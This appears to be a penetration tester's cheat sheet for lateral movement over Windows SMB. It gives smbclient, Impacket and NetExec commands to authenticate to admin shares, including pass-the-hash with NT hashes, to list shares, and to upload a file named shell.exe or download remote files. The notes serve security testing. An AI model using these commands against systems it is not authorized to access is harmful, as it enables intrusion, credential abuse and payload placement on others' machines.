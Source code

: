# Unix Shell

Search Tag(s): #lateral-movement #impacket #windows

## 01 - Authenticate

### 1.1 - Samba Suite Utils

`$ smbclient -U "[<domain_name>/]<username>%<password>" //<IP>/c$`

- Pass the Hash

`$ smbclient -U "[<domain_name>/]<username>" --pw-nt-hash <nt_hash> //<IP>/c$`

### 1.2 - Impacket

`$ smbclient.py [<domain>/]<username>:<password>@<IP>`

- Pass the Hash

`$ smbclient.py -hashes :<nt_hash> [<domain>/]<username>@<IP>`

### 1.3 - NetExec

#### 1.3.1 - Setup

##### 1.3.1.1 - Install dependencies

```
$ sudo apt install -y pipx git python3-aardwolf python3-aesedb python3-aiocmd python3-aioconsole python3-aiosmb python3-aiosqlite python3-aiowinreg python3-all-dev python3-anyjson python3-arc4 python3-argcomplete python3-asciitree python3-asn1tools python3-asyauth python3-asysocks python3-backcall python3-bs4 python3-beniget python3-bitstruct bloodhound.py python3-dateutil python3-diskcache python3-dploot python3-dsinternals python3-gast python3-libnmap python3-lsassy python3-masky python3-minidump python3-minikerberos python3-msgpack python3-msldap python3-neo4j python3-neobolt python3-neotime python3-oscrypto python3-paramiko python3-pickleshare python3-poetry-dynamic-versioning python3-pyasn1-modules python3-pyatspi python3-pylnk3 python3-pypsrp python3-pypykatz python3-pythran python3-pywerview python3-requests python3-requests-toolbelt python3-rich python3-spnego python3-sqlalchemy python3-termcolor python3-terminaltables python3-winacl python3-xmltodict
```

##### 1.3.1.2 - Install NetExec

```
$ pipx ensurepath && \
pipx install git+https://github.com/Pennyw0rth/NetExec
```

##### 1.3.1.3 - Auto tab complete

- For `/bin/bash`

`$ register-python-argcomplete nxc >> ~/.bashrc`

- For `/bin/zsh`

`$ register-python-argcomplete nxc >> ~/.zshrc`

#### 1.3.2 - Authentication

`$ netexec smb <IP> -u "<username>" -p "<password>"`

- Pass the Hash

`$ netexec smb <IP> -u "<username>" -H "<nt_hash>"`

## 02 - List Files and Directories

### 2.1 - Samba Suite Utils

`smb: \> ls`

### 2.2 - Impacket

```
# use c$

# ls
```

### 2.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" --shares
```

## 03 - Copy Files

### 3.1 - Samba Suite Utils

- Upload file

`smb: \> put /path/to/local/shell.exe`

- Download file

`smb: \> get \path\to\remote\file.txt`

### 3.2 - Impacket

- Upload file

```
# put /path/to/local/shell.exe
```

- Download file

```
# get \path\to\remote\file.txt
```

### 3.3 - NetExec

- Upload file

```
$ netexec smb <IP> -u "<username>" -p "<password>" --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe
```

- Download file

```
$ netexec smb <IP> -u "<username>" -p "<password>" --get-file \\path\\to\\remote\\file.txt /path/to/local/file.txt
```

---
## References

- [NetExec Wiki: Get and Put Files](https://www.netexec.wiki/smb-protocol/get-and-put-files)